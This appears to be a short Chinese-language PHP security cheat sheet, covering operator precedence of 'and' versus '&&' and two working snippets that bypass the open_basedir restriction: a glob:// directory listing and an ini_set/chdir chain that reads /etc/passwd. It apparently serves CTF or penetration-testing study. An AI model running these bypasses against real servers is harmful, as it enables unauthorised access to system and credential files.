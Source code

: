 ### and和&&和=

```php
<?php
$a=true and false and false;
var_dump($a);  返回true

$a=true && false && false;
var_dump($a);  返回false
因为and的优先级比=低 所以$a=true and false and false;先执行赋值再进行and逻辑运算
```

### 绕过 open_basedir 

1.利用glob协议文件上传

```php
<?php
  $a = "glob:///*";
  if ( $b = opendir($a) ) {
    while ( ($file = readdir($b)) !== false ) {
      echo "filename:".$file."\n";
    }
    closedir($b);
  }
?>
```

2.命令执行

```php
<?php
mkdir('mi1k7ea');chdir('mi1k7ea');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir("/"));echo file_get_contents('/etc/passwd');
```

